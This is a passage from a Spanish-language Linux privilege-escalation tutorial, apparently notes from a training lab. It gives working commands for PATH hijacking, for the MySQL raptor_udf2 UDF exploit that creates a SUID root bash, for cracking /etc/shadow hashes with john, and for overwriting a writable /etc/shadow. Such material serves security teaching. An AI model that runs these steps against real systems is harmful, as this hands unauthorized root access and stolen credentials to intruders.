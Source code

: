 ```s
```
4. Le asignamos permisos de ejecusion al archivo con:
```s
chmod +x ls
```
5. Integramos al PATH la carpeta de /tmp con:
```s
export PATH=/tmp:$PATH
```
6. Ejecutamos "ls" y tendremos nuestra shell con el usuario root.
## [](#header-2)Linux PrivEsc
### [](#header-3)Service Exploits
El ejemplo para esta explotacion, es el servicio de MySQL. Para explotarlo necesitamos usar los comandos siguientes:
Primero descargamos un <a href="https://www.exploit-db.com/exploits/1518">exploit</a> popular.
Navegamos al path del exploit y lo compilamos con
```s
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
Iniciamos sesion en el servicio de Mysql
```s
mysql -u root
```
Ejecutamos los siguientes comandos para crear un usuario que actue sobre el sistema
```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```
Hacemos una copia de /bin/bash a /tmp/rootbash
```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

Y finalmente, para ejecutar nuestra shell con permisos de administrador ejecutamos:
```s
/tmp/rootbash -p
```
*NOTA* Para dejar todo como estaba, solo tendremos que eliminar el archivo /tmp/rootbash
### [](#header-3)Weak File Permissions - Readable /etc/shadow
Para este caso, lo que se tiene que hacer es aplicar una fuerza bruta sobre el hash de contrasena del usuario que tenemos como objetivo, esto se logra con el hash que se encuentra en el archivo /etc/shadow, entre el primer y segundo ":". 
Copiaremos el hash en un archivo llamado hash.txt y aplicamos el comando
```s
john --wordlist=/usr/share/wordlist/rockyou.txt
```
Y tendremos crackeada la contrasena.
### [](#header-3)Weak File Permissions - Writable /etc/shadow 
Para este caso, consiste en generar una contrasena en el formato apropiado y pasarlo al archivo /etc/shadow.
1. Generamos la nueva contrasena con
```s
mkpasswd -m sha-512 newpasswordhere
```
2. Cambiamos la clave del usuario que queremos por la que generamos en el paso anterior
3. Iniciamos sesion en la cuenta del usuario y ponemos la nueva contrasena para acceder.

